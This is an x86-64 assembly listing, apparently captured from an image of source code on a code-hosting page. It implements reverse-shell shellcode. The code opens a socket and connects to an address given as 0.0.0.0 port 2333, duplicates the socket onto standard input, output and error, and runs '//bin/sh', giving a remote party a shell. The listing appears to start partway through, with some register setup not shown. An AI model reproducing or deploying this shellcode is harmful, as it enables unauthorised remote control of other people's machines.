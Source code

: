 ```asm
    xor     rdx, rdx        ; rdx = IPPROTO_IP(0)
    mov     rsi, rdx
    inc     rsi             ; rsi = SOCK_STREAM(1)
    mov     rdi, rsi        ;
    inc     rdi             ; rdi = AF_INET(2)
    syscall                 ; socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

    mov     r12, rax        ; r12 = sfd

    ; sockaddr
    ; ip = 0.0.0.0 port = 2333 family = 2
    xor     r13, r13
    xor     r9, r9
    add     r13, 0x1D090101
    mov     r9b, 0xFF
    sub     r13, r9

    push    r13
    mov     r13, rsp

    ; connect
    inc     r8
    mov     rax, r8         ; rax = connect
    mov     rdi, r12        ; rdi = sfd
    mov     rsi, r13        ; rsi = sockaddr
    add     rdx, 0x10       ; rdx = len(sockaddr_in) = 16
    syscall

    ; dup
    sub     r8, 0x8
    xor     rsi, rsi
    ; dup2(cfd, 0);
    ; dup2(cfd, 1);
    ; dup2(cfd, 2);
dup:
    mov     rax, r8                 ; rax = dup2
    mov     rdi, r12                ; rdi = cfd
    syscall                         ; dup2(cfd, rsi)
    
    cmp     rsi, 0x2                ; Is it less than 2? <----
    inc     rsi                     ; rsi ++       |
    jbe     dup                     ; Yes?jump to dup    <----

    ; exec
    sub     r8, 0x1F
    mov     rax, r8
    xor     rdx, rdx
    xor     rsi, rsi
    mov     r13, '//bin/sh'
    shr     r13, 8
    push    r13
    mov     rdi, rsp        ; rdi = '//bin/sh'
    syscall
```
